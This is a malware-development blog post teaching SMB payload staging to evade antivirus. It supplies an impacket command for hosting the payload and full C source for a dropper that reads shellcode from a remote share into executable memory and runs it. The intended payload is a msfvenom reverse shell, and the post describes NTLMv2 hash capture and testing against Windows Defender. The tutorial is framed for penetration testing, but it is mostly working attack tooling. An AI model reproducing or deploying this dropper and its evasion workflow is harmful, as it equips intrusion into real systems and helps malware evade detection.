









## Introduction

In the ongoing cat-and-mouse game between cyber attackers and defenders, the battleground has shifted from traditional malware tactics to more sophisticated methods of infiltration. One such technique gaining traction is SMB (Server Message Block) staging, a maneuver that allows attackers to bypass antivirus software and gain unauthorized access to systems. In this article, we delve into the intricate world of malware development, exploring some staging mechanics.

Before diving deeper into this topic, make sure to join my [Discord](https://discord.gg/bgSpdheEgu) where we share experience, knowledge and doing CTFs together.

!!!
If you have further appreciation for my work, don't hesitate to become my [Patreon](https://www.patreon.com/Lsecqt)!
!!!

## What is staging?

Staging, entails a technique to dynamically fetch the malicious payload during runtime. Unlike conventional methods where the entire malicious code is delivered at once, staging involves a two(or more) step process. Initially, a small and innocuous piece of code, often referred to as the `stager`, is deployed onto the target system. Subsequently, this `stager` communicates with a remote server controlled by the attacker to retrieve the actual malicious payload.

This tactic serves a dual purpose: evasion and flexability. By implementing shellcode runner that dynamically fetch its payload during runtime, you first achieve more evasiveness, because the AV/EDR system is having extremely hard time to predict what the dropper is trying or going to do. Secondly, this provides extreme levels of flexability, by swapping the remote payload, the same dropper can be reused for any need. By dividing the attack into multiple stages, it minimizes the footprint of the initial intrusion, making it more challenging for security systems to identify and block malicious activity.

Let's visualize it:



Generally, there are various ways (a.k.a protocols) to stage a payload, such as:
* HTTP/S
* FTP
* SMB
* SSH
* DNS and more

While the implementation will differ based on the protocol, the goal would be the same - to fetch the payload during runtime and execute it. 

I already did a video about staging over HTTP/S
[!embed](https://youtu.be/OpkLuvx1dw4)

As well as staging over SMB
[!embed](https://youtu.be/w_NKshRQ3b8)

So if you prefer watching a video instead of reading, feel welcomed to my [channel](https://www.youtube.com/c/Lsecqt).

## Understanding SMB

I am sure that the most of you are already pretty famililar with SMB, but I feel the need to explain it here with simple terms.

SMB, standing for Server Message Block, is a network communication protocol that facilitates shared access to files, printers, and various resources within a networked environment. Think of it as the digital courier that shuttles data between devices, allowing them to interact and collaborate seamlessly. Whether you're accessing a file stored on a server, printing a document from your laptop, or sharing data between colleagues, chances are SMB is working behind the scenes to make it happen.

At its core, SMB enables a client device, such as a computer or printer, to request services from a server program located on another device within the network. These services can range from file operations, such as reading, writing, and deleting files, to more complex tasks like accessing shared directories and managing network resources. While SMB is protocol which can be used in pretty much any environment, it lies at the heart of Windows networking. 

In Windows operating systems, SMB is deeply integrated into the networking stack, providing essential functionality for file and print services. By default, Windows client operating systems, such as Windows 10, and server operating systems, such as Windows Server 2019, include both SMB client and server components.

- **SMB Client:** The SMB client component enables Windows devices to access shared resources hosted on remote servers. When a user accesses a shared folder or printer, the SMB client initiates a connection to the remote server using the SMB protocol, facilitating file and print operations.
    
- **SMB Server:** Similarly, Windows server operating systems include the SMB server component, allowing them to host shared resources accessible to client devices on the network. Administrators can configure shared folders, set permissions, and manage access control using the built-in SMB server functionality.

With that being said, since the SMB protocol is mainly designed to share files, and its builtin in any modern Windows OS, why not simply use it for staging?

While it sounds all fun and good, there is a caveat, if an environment is properly configured, any outgoing SMB traffic would be completely disabled. This conditions our technique to be suitable for mostly internal penetration tests.

!!!
It is sometimes possible to find outgoing SMB traffic enabled, so don't forget to test for that. 
!!!

## Preparation

### Server side
Before writing the actual dropper, we must first prepare the server side and answer the following questions:
- Shall I go for full SMB or just the staging part?
- Based on the previous answer, which C2 framework to use?

Answering these questions is important, as this can be the difference between getting detected or not. There are C2 frameworks like [Mythic](https://github.com/its-a-feature/Mythic), which supports various communication methods, such as SMB, or even Discord. So based on your need, setup your C2 framework, generate a payload and host it on SMB via impacket:

```
impacket-smbserver share . -ts -debug -smb2support
```



Running this command will create SMB server and all of the files inside the hosted directory can be now accessed from a remote host.



### Dropper

As a language of choice I decided to go for C, mainly because of:
- Easy Win32APIs integration
- Generally more evasive language

The idea of the dropper would be extremely simple, read a .bin file from a remote file share into a variable. Then allocate the needed memory and execute it with a standard procedures such as Direct Pointer. More on what Direct Pointer is and how it works you can find [here](https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer---a-stealthy-maneuver-in-evasion-tactics/).

For our case we need to invoke the following Win32 APIs
- CreateFileA
- ReadFile
- VirtualAlloc

At first, the [CreateFileA](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) API looked strange to me, because the name is counter intuitive. I want to open a file not write to one. However, this function can be used to obtain a valid handle to a file, when parameters are carefully crafted.

Let's observer the function signature:

```C
HANDLE CreateFileA(
  [in]           LPCSTR                lpFileName,
  [in]           DWORD                 dwDesiredAccess,
  [in]           DWORD                 dwShareMode,
  [in, optional] LPSECURITY_ATTRIBUTES lpSecurityAttributes,
  [in]           DWORD                 dwCreationDisposition,
  [in]           DWORD                 dwFlagsAndAttributes,
  [in, optional] HANDLE                hTemplateFile
);
```

After following the [docs](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea), I was able to come up with something like this:
```C
HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
```

Invoked like that, all of the parameters are designed to specifically open a handle to a file in read mode!

!!!
In this case, the `fileName` is just a string variable, but the interesting thing is that you can pass a valid SMB path to a file.
!!!

Now after we have a handle to a file, we need to read it into a variable, right? Let's invoke [ReadFile](https://learn.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-readfile) API.

```
BOOL ReadFile(
  [in]                HANDLE       hFile,
  [out]               LPVOID       lpBuffer,
  [in]                DWORD        nNumberOfBytesToRead,
  [out, optional]     LPDWORD      lpNumberOfBytesRead,
  [in, out, optional] LPOVERLAPPED lpOverlapped
);
```

In that case, since we already have a handle to a file, the invocation is as simple as specifying the handle, the address of the variable we want the payload to be in, and of course, the size.

```C
BOOL rez = ReadFile(hFile, &buf, 460, NULL, NULL);
```

Then we need to add the execution flow as described in the [Direct Pointer blog](https://lsecqt.github.io/Red-Teaming-Army/malware-development/leveraging-the-direct-pointer---a-stealthy-maneuver-in-evasion-tactics/), and then after combining the pieces we would have something like this:

```C
#include <windows.h>
#include <stdio.h>

unsigned char buf[460] = "";

void readBin(const char* fileName){
	FILE *file;
	DWORD file_length;

	HANDLE hFile = CreateFileA(fileName, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	if(hFile == NULL)
	{
		printf("Error opening file: %d\n", GetLastError());
		exit(-99);
	}

	BOOL rez = ReadFile(hFile, &buf, 460, NULL, NULL);
	if(rez == FALSE)
	{
		printf("Error reading file: %d\n", GetLastError());
		exit(-98);
	}	
}

int main()
{
	LPVOID pAddr = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	readBin("\\\\192.168.0.103\\share\\test.bin");
	memcpy(pAddr, buf, sizeof(buf));
	((void(*)())pAddr)();
	
}
```

!!!
SMB Staging is already implemented in my ShadowBurn packer. By supporting my work on [Patreon](https://www.patreon.com/Lsecqt), you can get access to it as well as other useful repos.
!!!


## Execution

At this point on, you should have your payload and SMB server ready. Keep in mind that I have designed the dropper to operate with `windows/x64/shell_reverse_tcp` payload from msfvenom, but make sure to adjust the code if your payload differs.

!!!
It can also be a good idea to replace the statically allocated buffer variable with dynamic reallocation procedure, enjoy your homework task.
!!!

Now, after everything is setup, and after executing the dropper on the targeted system, we can first observe that the NTLMv2 hash of the local user is stolen, which means that the client successfully connected to the setup share.



And with that, the reverse shell is captured, which means that the remote file was successfully read to the local memory and executed.


## Evasion key notes

In the current configuration, scanning it with engines such as [AntiScan.me](https://antiscan.me/) would present incredibly good result, mainly because of signature detection. 




Since no payload is present into the dropper, signature detection fails to find something malicious. However, this does NOT mean that the dropper is that evasive. Keep in mind that memory scanners and heuristic based detection can not be tested from antiscan.me or others.

!!!
A nice alternative to AntiScan.me is https://metadefender.opswat.com/
!!!

For that reason, the only valid way to test the payload would be to execute it from a system with the targeted engine. I have developed a simple application that allows you to scan and execute files against Windows Defender.

I attended BSides 2024 - Sofia, Bulgaria and did a workshop together with [cocomelonc](https://twitter.com/cocomelonckz?lang=en). You can access the workshop materials from here: https://github.com/lsecqt/BSides-2024-Malware-Development-101-From-Zero-to-Non-Hero and setup the custom scanner application.

It is a flask based application that uses [AVred](https://github.com/dobin/avred-server) to utilize AMSI and scan a file.



In order to start the application, you can follow the readme instructions on the repository.

The application is designed to not only scan a file, but to execute it if no threats are found.
Uploading our dropper, resulted in successful (for us) result and another shell was obtained.





Keep in mind that the results can be different for different vendors. The scanner applications works only with Windows Defender.


## Conclusion

Staging is one of my favorite techniques when it comes to malware development. I know that the most important aspect of it is the evasiveness, but also do not underestimate the flexibility. Now, do not get me wrong, even though this technique is extremely cool, it is simply not enough by itself. Just by staging a payload does not mean that you would get it to run everywhere. The evasiveness depends on many many factors and it is rather a combination of techniques bundled together against a predefined target. Sometimes payload that get past Defender, will never get past other engines. It is a process of constant trial and error, but in general, by hiding the payload into unknown to the AV/EDR place, you can achieve great results.